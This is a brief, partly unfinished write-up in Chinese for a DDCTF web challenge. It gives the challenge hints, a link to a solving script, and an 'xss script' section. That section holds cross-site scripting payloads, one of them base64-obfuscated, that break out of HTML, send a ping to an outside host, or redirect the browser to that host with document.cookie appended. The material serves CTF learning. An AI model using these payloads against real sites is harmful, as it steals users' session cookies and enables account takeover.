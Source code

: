 ## 0x05. Web 5 - 欢迎报名 DDCTF
### 题目
> 欢迎报名DDCTF  
> http://117.51.147.2/Ze02pQYLf5gGNyMn/  
> 
> 提示：XSS不是获取cookie  
> 提示2：之后是注入  

### 解题过程
TODO

### 涉及资料
- 源代码
  - [完整通关脚本](./index.js)
- 知识点


### xss script
```javascript
'eval(atob(\'' + btoa('window.location=\'http://---.---.---.---:----/\' + document.cookie') + '\'))'
```

```html
yelo</span><img src="http://---.---.---.---:----/ping">
yelo</span><img onerror="window.location = 'http://---.---.---.---:----/' + document.cookie">
yelo</span><img onerror="eval(btoa(('...'))">
```

- http://117.51.147.2/Ze02pQYLf5gGNyMn/admin.php
- http://139.199.107.193/hint.php
